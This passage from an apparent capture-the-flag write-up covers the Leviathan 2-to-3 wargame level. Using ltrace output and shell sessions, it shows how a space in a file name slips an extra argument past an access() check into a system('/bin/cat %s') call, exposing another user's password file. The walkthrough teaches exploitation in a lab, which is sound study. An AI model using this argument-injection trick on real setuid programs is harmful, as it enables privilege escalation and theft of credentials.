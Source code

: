 Note: `strings` has minimum string length set by 4 to default, that's why it didn't show up the password.

---

# Leviathan 2 -> 3

* <https://en.wikipedia.org/wiki/Ln_(Unix)>
* <https://en.wikipedia.org/wiki/Code_injection>

This one is a brilliant challenge. Take a look at the following ltrace output:

```console
leviathan2@leviathan:~$ ltrace ./printfile "/etc/leviathan_pass/leviathan2"
__libc_start_main(0x804852d, 2, 0xffffd764, 0x8048600 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                 = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2") = 39
system("/bin/cat /etc/leviathan_pass/lev"...XXXXXX
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                      = 0
+++ exited (status 0) +++
```

So what happens is the following:

* Binary takes a file name as input.
* Calls `access()` to check if it has permissions to read that file (`O_RDONLY` flag).
* Creates a string using `sprintf`, using this format `sprintf("/bin/cat %s", filename)`
* Calls `system()` and executes the string.

### Solution 1

Take a look at the following cat behaviour:

```console
leviathan2@leviathan:/tmp/abatchy$ echo 1 > a
leviathan2@leviathan:/tmp/abatchy$ echo 2 > b
leviathan2@leviathan:/tmp/abatchy$ echo 3 > "a b"
leviathan2@leviathan:/tmp/abatchy$ cat a b
1
2
leviathan2@leviathan:/tmp/abatchy$ cat "/tmp/abatchy/a b"
3
leviathan2@leviathan:/tmp/abatchy$ cat /tmp/abatchy/a b 
1
2
leviathan2@leviathan:/tmp/abatchy$ /home//leviathan2/printfile /tmp/abatchy/a b
1
leviathan2@leviathan:/tmp/abatchy$ /home//leviathan2/printfile "/tmp/abatchy/a b"
1
2
```
